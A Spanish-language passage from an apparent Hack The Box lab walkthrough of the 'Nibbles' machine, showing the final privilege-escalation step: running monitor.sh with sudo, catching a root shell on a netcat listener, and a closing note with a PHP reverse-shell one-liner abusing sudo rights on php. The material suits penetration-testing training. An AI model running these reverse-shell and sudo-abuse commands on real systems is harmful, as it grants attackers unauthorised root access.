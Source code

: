 `nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh`

Finalmente, captura el shell de root en nuestro listener de `nc` esperando.


`pista95@htb[/htb]$ nc -lvnp 8443  listening on [any] 8443 ... connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 47488 # id  uid=0(root) gid=0(root) groups=0(root)`

Desde aquí, podemos obtener la flag `root.txt`. Finalmente, hemos resuelto nuestra primera máquina en HTB. Intenta replicar todos los pasos por tu cuenta y usa diferentes herramientas para lograr el mismo efecto. Hay muchas herramientas que podemos usar en los distintos pasos necesarios para resolver esta máquina. Esta guía muestra un método posible. Asegúrate de tomar notas detalladas para practicar esa habilidad crucial.

Laboratoriocd 


Ganando acceso a root ya que contamos con permisos sudo en el binario php:
sudo /usr/bin/php -r '$sock=fsockopen("10.10.15.220",8888);exec("/bin/bash -i <&3 >&3 2>&3");'